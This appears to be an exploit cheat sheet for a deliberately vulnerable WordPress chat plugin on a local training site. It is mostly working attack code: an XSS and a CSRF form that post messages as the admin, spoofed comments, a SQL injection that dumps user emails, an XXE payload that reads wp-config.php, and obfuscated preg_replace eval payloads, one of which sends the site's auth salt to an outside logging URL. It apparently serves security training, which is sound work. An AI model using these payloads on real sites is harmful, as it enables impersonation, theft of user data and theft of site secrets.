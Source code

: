 Make admin say something
========================

With Blog Access
----------------

### XSS

```js
haX0R = true;
```

```html
<script>
(function() {
	if ( 'undefined' !== typeof haX0R ) {
		return;
	}

	jQuery( '.widget_chat_sploit textarea' ).val( 'I am lame HAHAHA' );

	jQuery( '.widget_chat_sploit form' ).submit();
})()
</script>
```

Without Blog Access
-------------------

### CSRF

```html
<form enctype="text/plain" action="http://vip.dev/security/wp-admin/admin-ajax.php?action=chatsploit" method="POST">
	<input type="hidden" name="&lt;chat&gt;" value="I am lame HAHAHA :)&lt;/chat&gt;" />
	<input type="submit" value="Click if you like cheese!" />
</form>
```

### Spoof

```bash
curl -i 'http://vip.dev/security/wp-comments-post.php' --form 'comment=I am lame HAHAHA!' --form 'author=admin' --form 'email=test@example.com' --form 'comment_post_ID=5'
```

Get the `comment_post_ID` from http://vip.dev/security/comments/feed/ or brute force with:

```bash
curl -i 'http://vip.dev/security/wp-comments-post.php' --form 'author=test' --form 'email=test@example.com' --form "comment_post_ID=$i"
```

Get list of all users' email adresses
=====================================

With Blog Access
----------------

### SQL Injection

```bash
curl -i 'http://vip.dev/security/wp-admin/admin-ajax.php?action=chatsploit&since=3013-05-14+00:00:00%27+UNION+SELECT+user_login+AS+author%2C+user_email+AS+text%2C+0+AS+time+FROM+wp_users+--+'
```

Without Blog Access
-------------------

ORLY?

Get the site's SECRET_KEYs
=========================

With Blog Access
----------------

### XXE

```xml
<?xml version="1.0"?>
<!DOCTYPE xxe [<!ENTITY hi SYSTEM "php://filter/read=convert.base64-encode/resource=file:///home/vagrant/www/security/wp-config.php"> ]>
<chat>Hi! &hi;</chat>
```

You can use your own cookies.

```bash
cat xxe.xml | curl 'http://vip.dev/security/wp-admin/admin-ajax.php?action=chatsploit' --data @- -H 'Cookie: wordpress_9881e728288c003f340dfcb7f8c7c47c=author%7C1368155849%7Cb2da0569604d7e6bae7fc92758ab4eb7; wordpress_logged_in_9881e728288c003f340dfcb7f8c7c47c=author%7C1368155849%7Ce8138862195324278825dc3751409a14;'
```

Without Blog Access
-------------------

Get blog access first ;)

Or just use the arbitrary code execution vulnerability.

Get the site's SECRET_SALTs
===========================

`PREG_REPLACE_EVAL`
-------------------

### With Blog Access

```
hello http://example.com/{${substr(a.($a=get_option(auth_salt)),0,1)}} there

hello http://example.com/{${substr(chr(97).($a=get_option(chr(97).chr(117).chr(116).chr(104).chr(95).chr(115).chr(97).chr(108).chr(116))),0,1)}} there
```

### Without Blog Access

sploit.php:
```php
<?php

$log_url = 'http://vip.dev/log.php?';

$encoded_url = '';

for ( $i = 0; $i < strlen( $log_url ); $i++ ) {
	$encoded_url .= 'chr(' . ord( $log_url[$i] ) . ').';
}

$sploit = 'hello http://example.com/{${substr(chr(97).($a=' . mt_rand() . ').(file_get_contents(' . $encoded_url . 'urlencode(get_option(chr(97).chr(117).chr(116).chr(104).chr(95).chr(115).chr(97).chr(108).chr(116))))),0,1)}} there';

echo "$sploit\n";
```

```bash
curl -i 'http://vip.dev/security/wp-comments-post.php' --form 'author=admin' --form 'email=test@example.com' --form 'comment_post_ID=5' --form "comment=$( php sploit.php )"
```